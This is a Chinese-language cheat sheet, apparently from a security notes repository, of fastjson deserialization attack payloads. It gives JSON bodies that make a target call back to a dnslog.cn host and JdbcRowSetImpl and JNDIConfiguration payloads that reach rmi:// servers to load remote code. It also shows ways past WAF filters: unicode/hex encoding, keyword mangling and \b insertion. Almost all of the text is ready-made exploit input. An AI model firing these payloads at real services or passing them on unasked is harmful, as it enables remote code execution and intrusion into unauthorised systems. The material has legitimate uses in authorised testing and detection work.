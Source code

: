 **java.net.Inet4Address**

```
Content-Type: application/json

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
```

**java.net.Inet6Address**
```
Content-Type: application/json

{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
```

**java.net.InetSocketAddress**
```
Content-Type: application/json

{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
```

**java.net.URL**
```
Content-Type: application/json

{{"@type":"java.net.URL","val":"http://xxx.dnslog.cn"}:"x"}
```

**一些畸形方式**
```
Content-Type: application/json

{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://xxx.dnslog.cn"}}""}
Set[{"@type":"java.net.URL","val":"http://xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"http://xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"http://xxx.dnslog.cn"}:0
{{"@type":"java.net.URL","val":"http://xxx.dnslog.cn"}:"aaa"}
```

---

## WAF 绕过方法

- 加反斜杠特殊字符
- Unicode/Hex 多重编码绕过
    ```json
    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
    {"\u0040\u0074\u0079\u0070\u0065":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://localhost:1099/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}
    ```
- 对关键词 (例如: @type) 做处理
    ```json
    {"@\x74ype":"org.apache.commons.configuration.JNDIConfiguration","prefix":"rmi://xx.xx.xx.xx:3888"}
    ```
- type 的变形
- \b 绕过
    ```json
    {"@type":\b"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:9999","autoCommit":true}}
    ```
- 如果以上都不行, 就 fuzz 试试吧
